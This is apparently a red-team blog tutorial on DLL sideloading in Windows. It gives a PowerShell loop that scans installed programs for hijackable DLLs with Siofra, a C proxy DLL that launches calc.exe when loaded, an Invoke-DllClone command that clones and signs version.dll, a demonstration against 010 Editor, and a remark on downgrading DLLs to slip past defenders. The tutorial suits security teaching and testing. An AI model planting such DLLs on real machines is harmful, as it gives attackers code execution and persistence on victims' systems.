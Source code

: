 Title: DLL-Sideloading Attack: A Fast How-To
Date: 2023-06-09 22:00
Category: Red
Tags: Koppeling, DLL, Sideload, Sideloading, Red-Team, Windows

## What is DLL-Sideloading

In this guide, we will provide a quick overview of a DLL-sideloading attack and demonstrate how it can be executed.
Dynamic link libraries (DLLs) are loaded by the operating system (OS) when an application starts. There are two main methods of loading DLLs, and we focus on those that are specified only by name and not by an absolute path.

DLLs without a specified path are searched by the OS. The OS has a defined search order, which can vary depending on certain settings such as Safe-DLL. To determine the specific search order for your system, you can conduct a search or refer to relevant documentation.

## The Attack

If we can successfully place our own loaded DLL in a directory that is part of the search order and is positioned earlier than the original file, our DLL will be loaded along with the program. It is crucial to note that we must have write access to the directory in order to accomplish this.

## Tools

### siofra
There is a tool that is able to search for these kinds of vulnerabilities I like:
It is [siofra](https://github.com/Cybereason/siofra).

Consider the following powershell script from [here](https://twitter.com/ShitSecure/status/1566126264469098497/photo/1). For 32-bit exchange the Siofra.exe

```powershell
Get-ChildItem -Path "C:\Program Files\" -Filter *.exe -Recurse -File -Name | ForEach-Object{
    mkdir C:\temp\hijacktest
    $binarytoCheck = "C:\Program Files\" + $_
    C:\Tools\siofra\Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f $binarytoCheck >> C:\temp\hijacktest\toCheck.txt
}
```

Generally the output can be considered in two parts, the binary analysis shows which DLLs might be attackable with an exlamation mark:

![picture 1](../images/49369742dbe0ea41b57696a371613a5574117beee51a7cf96318b04763785fb5.png)  

In the next section it will analyse the probable attackable libraries and gives an exploitabilty suggestion:
![picture 2](../images/38019f07c834ac302e5f4c84eba042d7d9a2836f8f507832967946b3a8177bda.png)  

Here you can see, which DLL's one would have to place and where.
A nice next step would be to get which of the vulnerable marked locations are writeable to us.

### Koppeling

When placing a DLL with our attack code, we quickly realize the need to provide all the functions that the main binary wants to import from the library. This challenge is addressed by using [koppeling](https://github.com/monoxgas/Koppeling). 

Koppeling is a tool that allows us to provide the original desired DLL and our attacker code separately. It facilitates the merging of these components, ensuring that all the required functions are available for the application.

I use [Invoke-DLLClone](https://github.com/jfmaes/Invoke-DLLClone), which uses Koppeling inside, since I had problems with the original code. Then we just need some DLL code like this:

```c
#include <windows.h>
#include "pch.h"

DWORD WINAPI fireLazor(LPVOID lpParameter) {
	WinExec("calc.exe", 0);
	return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved) {
    HANDLE threadHandle;

    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        threadHandle = CreateThread(NULL, 0, fireLazor, NULL, 0, NULL);
        CloseHandle(threadHandle);

    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

### Example

I will attack 010 editor. As we saw before, its version.dll is vulnerable.

Compile the source code from above with Visual Studio as a DLL library and run

```powershell
Invoke-DllClone -Source C:\Windows\System32\version.dll -target C:\Users\you\source\repos\Dll1\x64\Release\urname.dll -output version.dll -sign
```

Placing it in the same directory as 010 editor and running it will cause this:

  
![picture 4](../images/751f81fedc6f887b1a11848c7b64673a878e2f0dcefdbbe7c000a117b6e71a12.png)  


## Downgrading

Most of the time, I consider myself to be in a lower privileged position and contemplate injecting my code somewhere. However, there is another attack against DLL sideloading known as downgrading. This attack may be challenging or ineffective in low-privilege situations, but it becomes particularly interesting in higher privilege scenarios.

With downgrading, we can replace a DLL with a known vulnerable version. If the other imported functions remain intact, the loading process will succeed (although there may be cases where the output of the functions has changed, resulting in runtime issues, but this is not very common).

A downgraded attack-code-free DLL is extremely difficult for the blue team to track. In fact, it can even be an officially signed DLL. Of course, it's essential to have an appropriate exploit to make use of this technique, so keep that in mind.